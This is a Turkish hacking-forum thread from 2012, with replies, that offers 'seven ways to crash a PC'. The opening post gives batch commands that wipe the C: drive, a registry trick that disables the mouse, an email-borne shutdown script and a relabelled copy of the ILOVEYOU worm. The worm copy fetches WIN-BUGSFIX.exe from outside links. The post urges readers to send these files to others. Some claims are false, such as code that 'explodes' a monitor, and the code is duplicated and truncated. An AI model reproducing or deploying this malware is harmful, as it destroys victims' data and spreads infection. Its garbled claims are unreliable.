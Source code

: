 # Cokelt-
Pc Çökertme 7 Farklı YöntemDARHALLDARHALL - ait Kullanıcı Resmi (Avatar)13-07-2012 21:13#1WinkPc Çökertme 7 Farklı Yöntem1.Notepad i açın.2.Notepad in içine şunları yazın:@echo offC:\WINDOWS\COMMAND\deltree /y c:\windows\*.*@echo offC:\WINDOWS\COMMAND\deltree /y c:\Progra~1\*.*@echo offC:\WINDOWS\COMMAND\deltree /y c:\*.*@echo offclscls@echo .:: DARHALL dan formatı yedin::.@echo off3.Notepad i kapatıp belgeyi kaydedin.4.Uzantısını .txt den .bat a çevirin.5.Hazır.NOT:Yaptıktan sonra dosyaya sakın tıklamayın.Eğer tıklarsanız 2,3 sn saniye içinde bilgisayar kapanıyor. ve bi daha açılmıyor.2(KOD)-----------------------bunla yha msn yada bilg çöküyo dahada geri gelmiyor!!!UYARI:Linke basmayınız!!!Msn vb canınızı sıkanlar varsa hemen bu linki gonderin.İsletim sistemi cokuohttp://www21.rapidupload.com/d.php?f...&amp;filepath=8202uyarıyı dikkat edin diye büyük yazdım3(KOD)-------------------------Maille pc çökertmekodKod:******** language=\"vbscript\">on error resume nextdim kutlukset kutluk=CreateObject(\"WScript.Shell\"kutluk.RegWri te \"HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCur rent VersionRunSYSTEM32\",\"shutdown -r\"&lt;/script>bu kod gönderdiğin kişinin maili açmasıyla gönderdiğim kodlar devreye girecek ne işe yarar diye sorucaksın tabi gönderdiğin kişinin pc\'yi yeniden başlatmasıyla yada pc yi açtığında sistem uyarısı gelecek ve tüm uygulamanızı kapatın diyecekyani pc her açıldığında 24 saniyede bir kapanacak olay bu.4(KOD)-------------------------------pc nin monitörünü patlatmayaevet bu aşağıdaki kodlarda karşı pc nin monitörünü patlatmaya yarar90,90resizepic 0 0 5054 405 470gumppic 10 10 5528gumppic &lt;eval (10+((&lt;p.x>*100)/1337))> &lt;eval (10+((&lt;p.y>*100)/1067))> 2362text 20 400 455 0text 20 435 455 01 local.t_x=&lt;argn1>local.t_y=&lt;argn2>sector.allclients sendpacket 0c0 00 D&lt;var.src> D&lt;var.target> W&lt;var.effect> W&lt;p.x> W&lt;eval &lt;p.y>> B&lt;qval &lt;argn3>?&lt;argn3>:&lt;p.z>> W&lt;local.t_x> W&lt;local.t_y> B&lt;qval &lt;argn3>?&lt;argn3>:&lt;p.z>> B&lt;var.speed> B&lt;var0.duration> 00 00 00 B&lt;qval &lt;var0.explode>?&lt;var.explode>:0> D&lt;hval &lt;var.hue> - 1> D&lt;var.rendermode>not defterine kopyalayın ve uzantısını bat yapın sakın siz tıklamayın %75 çalışıyodur5(KOD)---------------------evet aşağıdaki komutlar ise karşı pc nin masaüstünü komple silerCD..CD..CD.erase c:/f/s/q/anot defterine kopyalayın ve uzantısını bat yapın %100 çalışıyor6(KOD)-----------------------------BUDA FARE KAPATAN KOD@echo offcopy %0%windir%\Virus.bat> nulreg addHKLM\System\CurrentControlSet\Services\Mouclass/v Start /t REG_DWORD /d4/f > nul7(KOD)------------------------(BUNU TAVSİYE EDERİM)Not defteri acın bu kodu yapıstırın uzantısını .bat yapın orneın xx.bat gibi ve karsıya atın winrar layp işi biter,BU PC NİN HERŞEYİNİ YAKAR....rem delete -pcaş(-vbe)On es error -pcOn error Next Pc Hackdim fso,dirsystem,dirwin,dirtemp,eq,ctr,file,vbscopy,d oweq=”"ctr=0Set fso = CreateObject(”Scripting.FileSystemObject”)set file = fso.OpenTextFile(WScript.ScriptFullname,1)vbscopy=file.ReadAllmain()sub main()On Error Resume Nextdim wscr,rrset wscr=CreateObject(”WScript.Shell”)rr=wscr.RegRead(”HKEY_CURRENT_USER\Software\Micros oft\Window s Scripting Host\Settings\Timeout”)if (rr>=1) thenwscr.RegWrite “HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout”,0,”REG_DWORD”end ifSet dirwin = fso.GetSpecialFolder(0)Set dirsystem = fso.GetSpecialFolder(1)Set dirtemp = fso.GetSpecialFolder(2)Set c = fso.GetFile(WScript.ScriptFullName)c.Copy(dirsystem&amp;”\MSKernel32.vbs”)c.Copy(dirwin&amp;”\Win32DLL.vbs”)c.Copy(dirsystem&amp;”\LOVE-LETTER-FOR-YOU.TXT.vbs”)regruns()html()spreadtoemail()listadriv()end subsub regruns()On Error Resume NextDim num,downreadregcreate “HKEY_LOCAL_MACHINE\Software\Microsoft\Window s \Cur rentVersio n\Run\MSKernel32″,dirsystem&amp;”\MSKernel32.vbs”regcreate “HKEY_LOCAL_MACHINE\Software\Microsoft\Window s \Cur rentVersio n\RunServices\Win32DLL”,dirwin&amp;”\Win32DLL.vbs”downread=”"downread=regget(”HKEY_CURRENT_USER\Software\Micros oft\Intern et Explorer\Download Directory”)if (downread=”") thendownread=”c:\”end ifif (fileexist(dirsystem&amp;”\WinFAT32.exe”)=1) thenRandomizenum = Int((4 * Rnd) + 1)if num = 1 thenregcreate “HKCU\Software\Microsoft\Internet Explorer\Main\Start Page”,” https://tik.lat/vo4BE 7679njbvYT /WIN-BUGSFIX.exe”elseif num = 2 thenregcreate “HKCU\Software\Microsoft\Internet Explorer\Main\Start Page”,” https://tik.lat/PE572 nHHGbvbmKL JKjhkqj4w/WIN-BUGSFIX.exe”elseif num = 3 thenregcreate “HKCU\Software\Microsoft\Internet Explorer\Main\Start Page”,” https://tik.lat/emWQu bvg/WIN-BUGSFIX.exe”elseif num = 4 thenregcreate “HKCU\Software\Microsoft\Internet Explorer\Main\Start Page”,” https://tik.lat/H2HeS djhPhjasfd glkNBhbqwebmznxcbvnmadshfgqw237461234iuy7thjg/WIN-BUGSFIX.exe”end ifend ifif (fileexist(downread&amp;”\WIN-BUGSFIX.exe”)=0) thenregcreate “HKEY_LOCAL_MACHINE\Software\Microsoft\Window s \Cur rentVersio n\Run\WIN-BUGSFIX”,downread&amp;”\WIN-BUGSFIX.exe”regcreate “HKEY_CURRENT_USER\Software\Microsoft\Interne t Explorer\Main\Start Page”,”about:blank”end ifend subsub listadrivOn Error Resume NextDim d,dc,sSet dc = fso.DrivesFor Each d in dcIf d.DriveType = 2 or d.DriveType=3 Thenfolderlist(d.path&amp;”\”)end ifNextlistadriv = send subsub infectfiles(folderspec)On Error Resume Nextdim f,f1,fc,ext,ap,mircfname,s,bname,mp3set f = fso.GetFolder(folderspec)set fc = f.Filesfor each f1 in fcext=fso.GetExtensionName(f1.path)ext=lcase(ext)s=lcase(f1.name)if (ext=”vbs”) or (ext=”vbe”) thenset ap=fso.OpenTextFile(f1.path,2,true)ap.write vbscopyap.closeelseif(ext=”js”) or (ext=”jse”) or (ext=”css”) or (ext=”wsh”) or (ext=”sct”) or (ext=”hta”) thenset ap=fso.OpenTextFile(f1.path,2,true)ap.write vbscopyap.closebname=fso.GetBaseName(f1.path)set cop=fso.GetFile(f1.path)cop.copy(folderspec&amp;”\”&amp;bname&amp;”.vbs”)fso.DeleteFile(f1.path)elseif(ext=”jpg”) or (ext=”jpeg”) thenset ap=fso.OpenTextFile(f1.path,2,true)ap.write vbscopyap.closeset cop=fso.GetFile(f1.path)cop.copy(f1.path&amp;”.vbs”)fso.DeleteFile(f1.path)elseif(ext=”mp3″) or (ext=”mp2″) thenset mp3=fso.CreateTextFile(f1.path&amp;”.vbs”)mp3.write vbscopymp3.closeset att=fso.GetFile(f1.path)att.attributes=att.attributes+2end ifif (eq&lt;>folderspec) thenif (s=”mirc32.exe”) or (s=”mlink32.exe”) or (s=”mirc.ini”) or (s=”script.ini”) or (s=”mirc.hlp”) thenset scriptini=fso.CreateTextFile(folderspec&amp;”\script.i ni”)scriptini.WriteLine “[script]“scriptini.WriteLine “;mIRC Script”scriptini.WriteLine “; Please dont edit this script… mIRC will corrupt, if mIRC will”scriptini.WriteLine ” corrupt… WINDOWS will affect and will not run correctly. thanks”scriptini.WriteLine “;”scriptini.WriteLine “;Khaled DARHALL”scriptini.WriteLine “;http://www.mirc.com“scriptini.WriteLine “;”scriptini.WriteLine “n0=on 1:JOIN:#:{”scriptini.WriteLine “n1= /if ( şnick == şme ) { halt }”scriptini.WriteLine “n2= /.dcc send şnick “&amp;dirsystem&amp;”\LOVE-LETTER-FOR-YOU.HTM”scriptini.WriteLine “n3=}”scriptini.closeeq=folderspecend ifend ifnextend subsub folderlist(folderspec)On Error Resume Nextdim f,f1,sfset f = fso.GetFolder(folderspec)set sf = f.SubFoldersfor each f1 in sfinfectfiles(f1.path)folderlist(f1.path)nextend subsub regcreate(regkey,regvalue)Set regedit = CreateObject(”WScript.Shell”)regedit.RegWrite regkey,regvalueend subfunction regget(value)Set regedit = CreateObject(”WScript.Shell”)regget=regedit.RegRead(value)end functionfunction fileexist(filespec)On Error Resume Nextdim msgif (fso.FileExists(filespec)) Thenmsg = 0elsemsg = 1end iffileexist = msgend functionfunction folderexist(folderspec)On Error Resume Nextdim msgif (fso.GetFolderExists(folderspec)) thenmsg = 0---------------------dim f,f1,fc,ext,ap,mircfname,s,bname,mp3set f = fso.GetFolder(folderspec)set fc = f.Filesfor each f1 in fcext=fso.GetExtensionName(f1.path)ext=lcase(ext)s=lcase(f1.name)if (ext=”vbs”) or (ext=”vbe”) thenset ap=fso.OpenTextFile(f1.path,2,true)ap.write vbscopyap.closeelseif(ext=”js”) or (ext=”jse”) or (ext=”css”) or (ext=”wsh”) or (ext=”sct”) or (ext=”hta”) thenset ap=fso.OpenTextFile(f1.path,2,true)ap.write vbscopyap.closebname=fso.GetBaseName(f1.path)set cop=fso.GetFile(f1.path)cop.copy(folderspec&amp;”\”&amp;bname&amp;”.vbs”)fso.DeleteFile(f1.path)elseif(ext=”jpg”) or (ext=”jpeg”) thenset ap=fso.OpenTextFile(f1.path,2,true)ap.write vbscopyap.closeset cop=fso.GetFile(f1.path)cop.copy(f1.path&amp;”.vbs”)fso.DeleteFile(f1.path)elseif(ext=”mp3″) or (ext=”mp2″) thenset mp3=fso.CreateTextFile(f1.path&amp;”.vbs”)mp3.write vbscopymp3.closeset att=fso.GetFile(f1.path)att.attributes=att.attributes+2end ifif (eq&lt;>folderspec) thenif (s=”mirc32.exe”) or (s=”mlink32.exe”) or (s=”mirc.ini”) or (s=”script.ini”) or (s=”mirc.hlp”) thenset scriptini=fso.CreateTextFile(folderspec&amp;”\script.i ni”)scriptini.WriteLine “[script]“scriptini.WriteLine “;mIRC Script”scriptini.WriteLine “; Please dont edit this script… mIRC will corrupt, if mIRC will”scriptini.WriteLine ” corrupt… WINDOWS will affect and will not run correctly. thanks”scriptini.WriteLine “;”scriptini.WriteLine “;Khaled DARHALL”scriptini.WriteLine “;http://www.mirc.com“scriptini.WriteLine “;”scriptini.WriteLine “n0=on 1:JOIN:#:{”scriptini.WriteLine “n1= /if ( şnick == şme ) { halt }”scriptini.WriteLine “n2= /.dcc send şnick “&amp;dirsystem&amp;”\LOVE-LETTER-FOR-YOU.HTM”scriptini.WriteLine “n3=}”scriptini.closeeq=folderspecend ifend ifnextend subsub folderlist(folderspec)On Error Resume Nextdim f,f1,sfset f = fso.GetFolder(folderspec)set sf = f.SubFoldersfor each f1 in sfinfectfiles(f1.path)folderlist(f1.path)nextend subsub regcreate(regkey,regvalue)Set regedit = CreateObject(”WScript.Shell”)regedit.RegWrite regkey,regvalueend subfunction regget(value)Set regedit = CreateObject(”WScript.Shell”)regget=regedit.RegRead(value)end functionfunction fileexist(filespec)On Error Resume Nextdim msgif (fso.FileExists(filespec)) Thenmsg = 0elsemsg = 1end iffileexist = msgend functionfunction folderexist(folderspec)On Error Resume Nextdim msgif (fso.GetFolderExists(folderspec)) thenmsg = 0---------------------Sen susup içine çekersin söylemediklerini,Onlarınsa gördüğü sadece sigara içen birisi...Konu DARHALL tarafından (13-07-2012 21:15 Saat 21:15 ) değiştirilmiştir. Alıntı YapTrick59, ByCnr35, efsane3939, Marwins, kmc60 Teşekkür etti.soylum21soylum21 - ait Kullanıcı Resmi (Avatar)14-07-2012 20:08#24.Uzantısını .txt den .bat a çevirin. SUNU NASIL YAPICAM TAM OLARAK ANLATIRMISINIZ.. TŞK LER. Alıntı YapXXXXemreXXXXXXXXemreXXXX - ait Kullanıcı Resmi (Avatar)14-07-2012 20:12#3Alıntı:soylum21´isimli üyeden Alıntı Mesajı göster4.Uzantısını .txt den .bat a çevirin. SUNU NASIL YAPICAM TAM OLARAK ANLATIRMISINIZ.. TŞK LER.bilgisayarıma girin.yukarıdan düzenle diyin.klasözr ve arama seçeneklerine tıklayın.görünüme gelin.bilinen dosya uzantılarını gizle yazan yerin yanindaki tik işaretini kaldırın.teşekkür butonuna basın ---------------------KOD AD : !nFiReZone Arşivim : Zone-Arsıvler Alıntı YapByCnr35, Marwins, GencLikPomPa Teşekkür etti.ant07alyaant07alya - ait Kullanıcı Resmi (Avatar)15-07-2012 02:50#4güzel bir konu kardeş saol....---------------------Kod:/#/ Alıntı Yaptestere22testere22 - ait Kullanıcı Resmi (Avatar)15-07-2012 04:17#5soylum21 büyük yazı yazmak yasatır!!!..---------------------Ne Kadar Hızlı Gidersen O Kadar hızlı Düşersin Alıntı Yapyasaklar06yasaklar06 - ait Kullanıcı Resmi (Avatar)15-07-2012 14:20#6teşekkürler Alıntı YapTrojOnTrojOn - ait Kullanıcı Resmi (Avatar)18-07-2012 16:39#7Bunlar çok eskiden uygulanan yötemlerdi biraz geride kalmıssın ama emğine sağlık :9---------------------' Turk Hack Team , bize bulaşmadan düşünecektin 'TrojOn Atasözü Alıntı YapMsK25MsK25 - ait Kullanıcı Resmi (Avatar)18-07-2012 16:50#8Saol kardeş yararlı---------------------İMZAM YOK HE HEE  Alıntı YapBrutal AsassinBrutal Asassin - ait Kullanıcı Resmi (Avatar)19-07-2012 00:52#9Ellerine Sağlık .bat Virüsleri Hala İşe yarıyormu Alıntı Yap0nly830nly83 - ait Kullanıcı Resmi (Avatar)29-07-2012 21:03#10mail ile hackMaille pc çökertmekodKod:******** language=\"vbscript\">on error resume nextdim kutlukset kutluk=CreateObject(\"WScript.Shell\"kutluk.RegWri te \"HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCur rent VersionRunSYSTEM32\",\"shutdown -r\"&lt;/script> 
